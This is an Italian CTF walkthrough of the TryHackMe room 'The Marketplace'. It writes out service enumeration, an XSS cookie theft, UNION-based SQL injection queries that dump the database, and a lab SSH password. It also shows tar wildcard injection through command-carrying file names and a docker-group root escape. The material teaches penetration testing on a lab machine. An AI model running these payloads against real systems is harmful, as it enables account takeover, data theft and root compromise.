The Marketplace
https://tryhackme.com/room/marketplace?vccr=1
| kali@kali:~/Desktop/CTF/TheMarketplace$ echo "10.129.181.1 market.local" | sudo tee -a /etc/hosts
|
Procediamo per iniziare a enumerare i servizi presenti nella macchina utilizzando nmap
| kali@kali:~/Desktop/CTF/TheMarketplace$ sudo nmap -sS -sV -sC -p- market.local -oN nmap_result.txt
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-02 15:05 -0400
Nmap scan report for market.local (10.129.181.1)
Host is up (0.087s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
| 256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_ 256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp open http nginx 1.19.2
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
| http-robots.txt: 1 disallowed entry
|_/admin
32768/tcp open http Node.js (Express middleware)
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry
|_/admin
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 203.49 seconds
|
Sono presenti 3 servizi pubblicamente esposti
| Servizio |
Porta |
Versione |
| ssh |
22 |
OpenSSH 7.6p1 |
| http |
80 |
nginx 1.19.2 |
| http |
32768 |
node.js |
Da quello che credo il servizio nella porta 80 è solamente un reverse proxy verso il servizio node.js (porta 32768) quindi il servizio web è esposto in 32768 e nginx lo serve sulla porta 80.
Intanto eseguiamo enumerazione dei percorsi nel servizio web
| kali@kali:~/Desktop/CTF/TheMarketplace$ gobuster dir -u http://market.local -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".txt,.js"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://market.local
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.8.2
[+] Extensions: txt,js
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta (Status: 403) [Size: 153]
.hta.txt (Status: 403) [Size: 153]
.hta.js (Status: 403) [Size: 153]
.htaccess (Status: 403) [Size: 153]
.htaccess.txt (Status: 403) [Size: 153]
.htaccess.js (Status: 403) [Size: 153]
.htpasswd (Status: 403) [Size: 153]
.htpasswd.txt (Status: 403) [Size: 153]
.htpasswd.js (Status: 403) [Size: 153]
ADMIN (Status: 403) [Size: 392]
Admin (Status: 403) [Size: 392]
Login (Status: 200) [Size: 857]
admin (Status: 403) [Size: 392]
images (Status: 301) [Size: 179] [--> /images/]
login (Status: 200) [Size: 857]
messages (Status: 302) [Size: 28] [--> /login]
new (Status: 302) [Size: 28] [--> /login]
robots.txt (Status: 200) [Size: 31]
robots.txt (Status: 200) [Size: 31]
signup (Status: 200) [Size: 667]
stylesheets (Status: 301) [Size: 189] [--> /stylesheets/]
|
Registrandoci e poi loggandoci, e poi cliccando New Listing possiamo creare un nuovo prodotto

E una volta creato è possibile reportarlo agli admin che lo visionano
Quello che mi è venuto in mente è che se è vulnerabile ad XSS questo campo possiamo reportare agli admin un articolo costruito ad hoc per rubare i cookie di accesso dell’admin.
Per questo usando Burp Suite ho costruito un sempliccismo test XSS


Andato con successo ora al posto di stampare un semplice 1 stampiamo i cookie

Ora quello che dobbiamo fare un JS che invia questi cookie alla nostra kali


Funziona effettivamente, ora reportiamo l’articolo e speriamo che l’admin lo legga!


Ha funzionato!! abbiamo i suoi cookie. Ora ci logghiamo con il suo cookie

E otteniamo la prima flag.
Ora ci sono tre utenti nel sistema: system, michael, jake gli altri sono utenti creati da me di test. Importanti sono michael e jake che sono amministratori.
Provando a rompere l’url della ricerca utenti

Possiamo sfruttare cio’ per creare un SQLi
Cominciamo a trovare con quante colonne viene usata la select


Quattro colonne! ora cominciamo ad enumerare il database
Con /admin?user=1 UNION SELECT database(),2,3,4 LIMIT 1 OFFSET 1-- -
Otteniamo che il database si chiama marketplace
Con /admin?user=1 UNION SELECT group_concat(table_name),2,3,4 FROM information_schema.tables WHERE table_schema='marketplace' LIMIT 1 OFFSET 1-- -
Otteniamo 3 tabelle: items,messages,users
Con /admin?user=1 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='messages' LIMIT 1 OFFSET 1-- -
Otteniamo le colonne della tabella messages: id,is_read,message_content,user_from,user_to
Con /admin?user=1 UNION SELECT group_concat('from',':', user_from,' to: ', user_to , '-> ', message_content SEPARATOR '<br>'),2,3,4 FROM messages LIMIT 1 OFFSET 1-- -
Otteniamo tutti i messaggi, ben separati

La password di Jake (User 3) è quindi @b_ENXkGYUCAv3zJ possiamo quindi collegarci in SSH

Dove troviamo la seconda flag

Ora dobbiamo fare privileage escalation e cercare di diventare root
| jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User jake may run the following commands on the-marketplace:
(michael) NOPASSWD: /opt/backups/backup.sh
jake@the-marketplace:~$
|
| jake@the-marketplace:~$ ls -al /opt/backups/backup.sh
-rwxr-xr-x 1 michael michael 73 Aug 23 2020 /opt/backups/backup.sh
jake@the-marketplace:~$
|
L’utente jake può eseguire questo file con i permessi di michael
| jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
|
fa essenzialmente un backup in formato .tar di tutto ciò che * espande nella directory corrente.
Guardando da gtfobins.org è possibile aprire una shell con tar in questo caso si aprirebbe con i permessi massimi di root.

Il nostro scopo è quello di creare quindi un file nella directory /opt/backups/ di nome
--checkpoint=1 --checkpoint-action=exec=/bin/sh
| jake@the-marketplace:/opt/backups$ ll
total 16
drwxrwxrwt 2 root root 4096 Oct 2 21:16 ./
drwxr-xr-x 4 root root 4096 Aug 23 2020 ../
-rwxr-xr-x 1 michael michael 73 Aug 23 2020 backup.sh*
-rw-rw-r-- 1 jake jake 0 Oct 2 21:04 '--checkpoint=1'
-rw-rw-r-- 1 jake jake 0 Oct 2 21:05 '--checkpoint-action=exec=sh'
-rw-rw-r-- 1 jake jake 5 Oct 2 21:02 test.txt
|
| jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
$ ls
backup.sh backup.tar '--checkpoint=1' '--checkpoint-action=exec=sh' test.txt
$ whoami
michael
$
|
E appartiene anche al gruppo docker
| michael@the-marketplace:/home/michael$ groups
michael docker
michael@the-marketplace:/home/michael$
|
Usiamo quindi questa caratteristica per creare un container e montarlo dentro l’intero filesystem / dell’host -v /:/mnt
| michael@the-marketplace:/home/michael$ docker run -it --rm -v /:/mnt alpine chroot /mnt /bin/sh
# ls
bin boot cdrom dev etc home initrd.img initrd.img.old lib lib64 lost+found media mnt opt proc root run sbin srv swap.img sys tmp usr var vmlinuz vmlinuz.old
# cd /root
# ls
root.txt
# cat root.txt
THM{*******************************}
#
|
Questo è stato reso possibile poichè essere nel gruppo docker è equivalente a privilegi di root, poichè usare il daemon Docker è un Deamon privilegiato che tipicamente è eseguito da root .